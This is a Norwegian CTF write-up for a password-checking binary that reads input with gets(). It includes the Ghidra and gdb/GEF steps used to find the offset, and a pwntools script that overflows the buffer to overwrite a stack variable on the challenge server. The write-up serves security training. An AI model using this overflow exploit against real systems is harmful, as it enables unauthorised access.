


# Taskname
> Author: Mx. Task

## Challenge

## Solution

Importerer binary i Ghidra, ser at enn bruker `gets()` for å hente passordet. Det gjøres en sjekk at `local_18` må være en annen verdi, men den er statisk i koden, så denne må vi overskrive selv.
Deretter et `strncmp()` av brukerdata mot hardkodet passord `sikkerhet`.



```bash
pip install pwntools
```

Bruker `checksec` for å sjekke begrensninger på binæren, finner ingen relevante for oss nå.




For å finne offset til `local_18`, kan enn bruke `gdb` med GEF.
```
disass main
```
og vi kan se compare av `local_18` og fastsatt verdi er
```asm
mov rax, 0x646167656e
cmp QWORD PTR [rbp-0x0], rax
```
på linje `main+188`

```
break *(main+188)
pattern create
r
<paste pattern>
```
når programmet treffer breakpoint, finn offset med
```
pattern offset $rbp-0x10
```

```python
#!/usr/bin/env python3
from pwn import *
io = connect('ctf.uiactf.no', 4001)
payload = b'sikkerhets\0'
payload += b'A'*(48-len(payload))
payload += p64(0x646167656e)
io.sendlineafter(b'passordet: ', payload)
print(io.recvall(timeout=1).decode())
```

